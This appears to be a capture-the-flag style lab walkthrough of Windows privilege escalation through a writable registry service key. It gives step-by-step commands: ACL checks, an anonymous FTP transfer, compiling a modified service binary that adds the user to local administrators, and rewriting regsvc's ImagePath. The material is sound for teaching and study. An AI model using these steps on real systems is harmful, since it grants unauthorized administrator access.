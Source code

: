 # Service Escalation - Registry

- Using `Get-Acl` we determine that the `NT AUTHORITY\INTERACTIVE` has full control over the `regsvc` registry
- We can add a malicious executable to the registry service
- We can exploit this to either get a reverse shell or add a user

## Step 1: Detection

- Open PowerShell prompt and type: **`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`**

```jsx
C:\Users\user> powershell -ep bypass
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

- Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

![get_acl](images/get_acl.png)

## Step 2: Transfer File

- Start FTP server on port 21 and allow `write` access

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ pip3 install pyftpdlib

┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-27 23:12:18] concurrency model: async
[I 2023-12-27 23:12:18] masquerade (NAT) address: None
[I 2023-12-27 23:12:18] passive ports: None
[I 2023-12-27 23:12:18] >>> starting FTP server on 0.0.0.0:21, pid=2440229 <<<
```

- Open terminal in the directory where `windows_service.c` is located

![source](/images/source.png)

- Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the attack machine

```jsx
C:\Users\User\Desktop\Tools\Source> ftp 10.18.48.44
User (10.18.48.44:(none)): anonymous
Password:
230 Login successful
ftp> put windows_service.c
```

![put](/images/put.png)

## Step 3: Exploitation

- Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![edit](/images/edit.png)

- Compile the file by typing the following in the command prompt:
  - **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**
  - **NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'**

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

- Copy the generated file `x.exe`, to the target using the `pytfp` server
- Make sure to use `binary` mode for the transfer process

![get](/images/get.png)

### Add Executable to `ImagePath` of the Registry Service

- Open command prompt at type:

**`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`**

```jsx
C:\Temp> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f**
```

- Start the `registry service` in the command prompt type: **`sc start regsvc`**

```jsx
C:\Temp> sc start regsvc
```

- Verify the `user` account has been added to the `local administrators` group

```jsx
C:\Temp> net localgroup administrators
```

![start](/images/start.png)
